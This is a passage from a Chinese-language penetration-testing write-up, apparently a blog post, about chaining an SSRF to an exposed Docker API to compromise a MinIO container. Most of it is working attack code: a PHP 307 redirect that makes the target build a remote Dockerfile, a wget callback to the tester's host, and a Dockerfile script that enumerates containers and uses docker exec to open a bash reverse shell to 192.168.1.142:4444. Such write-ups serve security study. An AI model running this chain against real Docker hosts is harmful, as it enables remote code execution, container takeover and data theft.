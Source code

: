 这个参数可以传入一个Git地址或者一个HTTP URL，内容是一个Dockerfile或者一个包含了Dockerfile的Git项目或者一个压缩包。

也就是说，Docker API支持通过指定远程URL的方式来构建镜像，而不需要我在本地写入一个Dockerfile。

所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```plain
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

```plain
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行SSRF攻击，等待了一会儿，果然收到请求了：

![](images/202202091233874.png)

完美，我们已经可以在目标集群容器里执行任意命令了。

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用`docker exec`在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```